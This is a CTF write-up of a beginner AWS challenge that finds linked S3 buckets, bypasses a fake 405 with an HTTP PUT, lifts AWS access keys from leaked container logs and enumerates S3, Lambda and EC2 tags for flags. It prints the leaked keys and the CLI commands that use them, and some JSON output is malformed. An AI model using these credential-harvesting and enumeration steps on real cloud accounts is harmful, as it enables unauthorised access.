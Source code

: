 # Enumerating the cloud
beginner | cloud | 125 points

The spaceship that you will use in SPACE RACE is almost ready. One of the last steps is to verify that all of the systems are operational. Unfortunately, the AI controlling the system information decided to take a personal time off for a few days, leaving you without an easy access to the spaceship systems. This is not a problem because, as the cyber security specialist in the ship, you know the spaceship cloud infrastructure like the back of your hand.

## [25 points] Spaceship external information endpoint
>Your spaceship is located [here](http://planet-bucket-43b2a07.s3-website-eu-west-1.amazonaws.com), can you find the external information panel?

Checking the source code of the page reveals another S3 bucket, [rocket-bucket-723aa76](https://rocket-bucket-723aa76.s3.amazonaws.com).

The bucket contains 3 files:
- external-information-panel.txt
- flag.txt
- rocket_bucket.png

Downloading **flag.txt** provides the flag for this sub-challenge. The external information panel file will be useful for the next sub-challenge.

Flag: `CTF{0841862f273fd2ca20ea3b94a645781071ab19d7}`

## [25 points] Obtaining the spaceship access keys
>You have gained access to the external infromation endpoint. Can you access the spaceship logs to obtain the access keys?

The external information panel contains a link to the [spaceship logs](https://g0341x75tb.execute-api.eu-west-1.amazonaws.com/logs). 

Visiting the page returns a **405** request which says that the GET method is not permitted. I immediately started looking for ways to bypass this error, only to find nothing for a long long time. 

Then something struck and I decided to check the response header, which contained the status code 200? Interesting. So the "method not permitted" response is actually a fake 405 response? Looks like. 

The next train of thought went to trying other HTTP methods apart from GET, which I did using `curl -X <method> <url>`.

```
piyagehi@Piyas-MacBook-Pro:~$ curl -X POST https://g0341x75tb.execute-api.eu-west-1.amazonaws.com/logs
405 Request method 'POST' not allowed
piyagehi@Piyas-MacBook-Pro:~$ curl -X PUT https://g0341x75tb.execute-api.eu-west-1.amazonaws.com/logs
The periscope data is optimal. Have a flag for your effort: CTF{9177a9c8bb1cd5c85934}.<br>
[
    {
        "Id": "dfa0f62de13a1719d125ac2f3382543067701c5031289006c8170d3bab33994a",
        "Created": "2021-06-24T17:33:58.623969048Z",
...
```

Nice!

Flag: `CTF{9177a9c8bb1cd5c85934}`

## [25 points] A cleaning bucket
>You have managed to access the spaceship. You see a cleaning bucket, the Lambda Thrusters information panel tag and the E-space Computing Cloud system tags. What does the tag in the cleaning bucket says?

Somewhere in the spaceship logs, AWS credentials can be found.

```
"Env": [
    "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
    "AWS_SECRET_ACCESS_KEY=dpmlpQnMgZFZ5Nt8k7AkCTizqGrY84ZRW55lo+52",
    "AWS_ACCESS_KEY_ID=AKIA552OOUKCBWDIUCWS"
],
```

So we set up AWS CLI with these credentials to view further information. An brief introduction to AWS Access Keys is mentioned in the writeup for [TEASER: Locked out](https://github.com/pjg11/CTF-Writeups/blob/main/2021-Space-Race/1-Locked-Out.md#configure-aws-credentials).

```
$ aws configure --profile=enum-cloud
AWS Access Key ID [None]: AKIA552OOUKCBWDIUCWS
AWS Secret Access Key [None]: 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
Default region name [None]: eu-west-1
Default output format [None]: 
$ aws s3 ls
2021-06-24 20:21:57 cleaningbucket-cf2be35
2021-06-24 20:25:07 planet-bucket-43b2a07
2021-06-24 20:24:40 rocket-bucket-723aa76
$ aws s3 ls cleaningbucket-cf2be35
# No result
```

Oh, no result. I went back through the challenge description again, which mentions of some tag. Some searching later, I found a function called [`get_bucket_tagging`](https://docs.aws.amazon.com/cli/latest/reference/s3api/get-bucket-tagging.html) which can be used to get tags for a bucket.

```
$ aws s3api get-bucket-tagging --bucket cleaningbucket-cf2be35
{
    "TagSet": [
        {
            "Key": "hackyholidays",
            "Value": "users"
        },
        {
            "Key": "Flag",
            "Value": "CTF 855cc724fd34896c8875"
            "Key": "Next",
            "Value" : "Lambda Thrusters"
        }
    ]
}
```

## [25 points] Lambda Thrusters information panel
>What is the tag in the Lambda Thrusters information panel?

[AWS Lambda](https://docs.aws.amazon.com/cli/latest/reference/lambda/index.html) is another feature that can be accessed within the AWS CLI. Getting the tag for the lambda function requires its Resource Number, which we can get from the `list-functions` method.

```
$ aws lambda list-functions
{
    "Functions": [
        {
            "FunctionName": "l-1-eb3b962",
            "FunctionArn": "arn:aws:lambda:eu-west-1:957405373060:function:l-1-eb3b962"
            "Runtime": "nodejs12.x"
            "Role": "arn:aws:iam::957405373060:role/lambdaRole-79ced9b",
            "Handler": "index.handler",
            "CodeSize": 2604,
            "Description": "",
            "Timeout": 3,
            "MemorySize": 128,
            "LastModified":"2021-06-28T09:08:03.833+0000",
            "CodeSha256": "YvuySpl61W1DkDhn/q8T5Uk56Y5zLYBJz8CfdUZ6/Lw=",
            "Version": "$LATEST",
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "fac84b7c-e7aa-4d02-a242-bdb5234a2eba",
            "PackageType": "Zip"
        },
        {
            "FunctionName": "lambdaThrusters-8697c51",
            "FunctionArn": "arn:aws:lambda:eu-west-1:957405373060:function:lambdaThrusters-8697c51",
            "Runtime": "nodejs12.x",
            "Role": "arn:aws:iam::957405373060:role/lambdaRole-f644005",
            "Handler": "index.handler",
            "CodeSize": 489,
            "Description": "",
            "Timeout": 3,
            "MemorySize": 128,
            "LastModified": "2021-06-24T19:22:07.161+0000",
            "CodeSha256" : "jAtPTIMlihi2fSOsE63+ay10qw5xv8rNiCSV+PvIScY=",
            "Version": "$LATEST",
            "TracingConfig": {
                "Mode": "PassThrough",
            }
            "RevisionId": "62b3c862-46e8-4e29-91b9-31c25625ab26",
            "PackageType": "Zip"
        }
    ]
}
```

We need the tag for the second function, `lambdaThrusters-8697c51`, which we can get with the `list-tags` method. This contains the flag for this challenge.

```
$ aws lambda list-tags --resource arn:aws:lambda:eu-west-1:957405373060:function:lambdaThrusters-8697c51
{
    "Tags": {
        "Flag": "CTF_20324408a4e3f5c1d54",
        "Next": "E-Space Computing Cloud System",
        "hackyholidays": "users"
    }
}
```

Flag: `CTF_20324408a4e3f5c1d54`

## [25 points] E-space Cloud Computing System
What is the tag in the E-space Cloud Computing System?

If you've noticed, each task name has been related to some feature of AWS. This one is based on [EC2](https://docs.aws.amazon.com/cli/latest/reference/ec2/index.html) or Elastic Compute Cloud. EC2 contains a `describe_tags` method, which gives us the final flag for the challenge.

```console
$ aws ec2 describe-tags
{
    "Tags": [
        {
            "Key": "final_flag",
            "ResourceId": "i-09d9eff674a6e336b",
            "ResourceType": "instance",
            "Value": "CTF_98f960b4d86bbcfe3fe1",
        },
        {
            "Key": "hackyholidays",
            "ResourceId": "i-09d9eff674a6e336b",
            "ResourceType": "instance",
            "Value": "users",
        },
        {
            "Key": "hackyholidays",
            "ResourceId": "eni-08fe3290679e72178",
            "ResourceType": "network-interface",
            "Value": "users",
        },
        {
            "Key": "hackyholidays",
            "ResourceId": "vpc-042829c2c5370a038",
            "ResourceType": "vpc",
            "Value": "users",
        },
        {
            "Key": "hackyholidays",
            "ResourceId": "subnet-0f45a2d9daeeb4af9",
            "ResourceType": "subnet",
            "Value": "users",
        },
    ]
}
```

Flag: `CTF_98f960b4d86bbcfe3fe1`